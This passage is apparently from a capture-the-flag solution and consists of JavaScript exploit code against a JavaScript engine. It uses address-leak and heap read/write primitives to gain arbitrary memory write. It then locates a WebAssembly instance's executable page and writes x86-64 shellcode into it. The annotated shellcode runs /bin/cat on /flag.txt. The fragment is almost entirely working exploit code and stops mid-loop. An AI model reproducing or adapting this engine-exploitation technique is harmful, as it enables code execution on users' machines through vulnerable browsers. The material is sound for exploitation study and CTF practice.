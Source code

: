 ```js
d = new ArrayBuffer(0x80);

//print("[+]Addr of d: " + hex(addrof(d)));
print("[+] Heap leak --> *" + hex(addrof(d)) + " - 5n + 0x18n: " + hex(heap_read(addrof(d) - 5n + 0x18n)))

littleEndian = true;
bigEndian = false;

function arb_write(addr, data, littleEndian) {
  let dataview = new DataView(d);
  heap_write(addrof(d) - 5n + 0x18n, addr);
  dataview.setBigUint64(0, data, littleEndian); 
}

shellcode = [0x4831D25248BB2F62n, 0x696E2F6361745354n, 0x5F5248BB74000000n, 0x0000000053909090n, 0x909048BB2F666C61n, 0x672E747853545E52n, 0x5657545E4831C0B0n, 0x3B0F059090909090n];
/*
0:  48 31 d2                xor    rdx,rdx
3:  52                      push   rdx
4:  48 bb 2f 62 69 6e 2f    movabs rbx,0x7461632f6e69622f   ;"/bin/cat"
b:  63 61 74
e:  53                      push   rbx
f:  54                      push   rsp
10: 5f                      pop    rdi
11: 52                      push   rdx

xx: 48 bb 74 00 00 00 00    movabs rbx,0x0000000000000074   ;"t"
xx: 00 00 00
xx: 53                      push   rbx

12: 48 bb 2f 66 6c 61 67    movabs rbx,0x78742e67616c662f   ;"/flag.tx"
19: 2e 74 78
1c: 53                      push   rbx
1d: 54                      push   rsp
1e: 5e                      pop    rsi
1f: 52                      push   rdx
20: 56                      push   rsi
21: 57                      push   rdi
22: 54                      push   rsp
23: 5e                      pop    rsi
24: 48 31 c0                xor    rax,rax
27: b0 3b                   mov    al,0x3b
29: 0f 05                   syscall               ;execve("/bin/cat", ["/bin/cat", "/flag.txt", NULL], NULL)
*/

// https://wasdk.github.io/WasmFiddle
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);

shellcode_addr = heap_read(addrof(wasmInstance) - 0x8212069n + 0x82120d0n);
print("[+] RWX addrss: " + hex(shellcode_addr));

let shcode_writer = new DataView(d);
heap_write(addrof(d) - 5n + 0x18n, shellcode_addr);

print("[+] Writing shellcode...");
for (let i = 0n ; i < shellcode.length ; i++) {
```